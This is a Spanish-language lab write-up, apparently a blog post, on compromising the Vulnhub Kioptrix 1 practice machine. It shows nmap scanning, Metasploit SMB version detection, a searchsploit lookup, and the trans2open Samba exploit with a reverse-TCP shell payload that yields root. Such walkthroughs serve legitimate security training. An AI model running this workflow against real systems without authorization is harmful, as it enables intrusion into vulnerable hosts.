 ```yaml
---
title: "Vulnhub #3: Kioptrix 1"
description: Pentesting a máquina CSEC 2 en Vulnhub
date: 2025-05-11
scheduled: 2025-05-11
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

## Descubrimiento de hosts

1. Escaneamos para descubrir hosts:
nmap -sn <ip>/<rango>

Nos da el siguiente resultado:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-10 09:23 CEST
Nmap scan report for www.adsl.vf (192.168.0.1)
Host is up (0.0048s latency).
Nmap scan report for 192.168.0.10
Host is up (0.082s latency).
Nmap scan report for 192.168.0.16
Host is up (0.00044s latency).
Nmap scan report for 192.168.0.20
Host is up (0.000081s latency).
Nmap scan report for 192.168.0.24
Host is up (0.00041s latency).
Nmap done: 256 IP addresses (5 hosts up) scanned in 15.31 seconds
```

2. Escaneamos versiones
nmap -sV <ip>

```
 ~ nmap -sV 192.168.0.24
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-10 09:26 CEST
Nmap scan report for 192.168.0.24
Host is up (0.0021s latency).
Not shown: 994 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```

Vemos que 192.168.0.24 es un redhat con varios puertos abiertos.

Nos interesa el servicio de Samba, pero necesitamos conocer su version antes de atacar.

Con metasploit podemos ejecutar el siguiente scanner:

```
msfconsole
search /scanner/smb/ #para buscar
use /auxiliary/scanner/smb/smb_version
show options
set rhosts 192.168.0.24
```

Al lanzarlo, obtenemos lo siguiente:

```
[*] 192.168.0.24:139      - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.0.24:139      -   Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.0.24:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Una vez tenemos la version, podemos buscar si existen exploits con `searchsploit <servicio>` y `searchsplot <servicio> <version>`

Con searchsploit samba 2.2.1a nos da el siguiente resultado:

```
------------------------------- ---------------------------------
 Exploit Title                 |  Path
------------------------------- ---------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - tr | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Re | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap O | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial o | linux_x86/dos/36741.py
------------------------------- ---------------------------------
Shellcodes: No Results
```

Para explotar la vulnerabilidad debemos encontrar una en su version.

En concreto, aqui tenemos la vulnerabilidad trans2open, podemos buscarla con `search trans2open` en metasploit.

Debemos configurar el payload con `set payload linux/x86/shell_reverse_tcp` y el rhosts.

Al lanzarlo con run obtenemos una shell con usuario root.
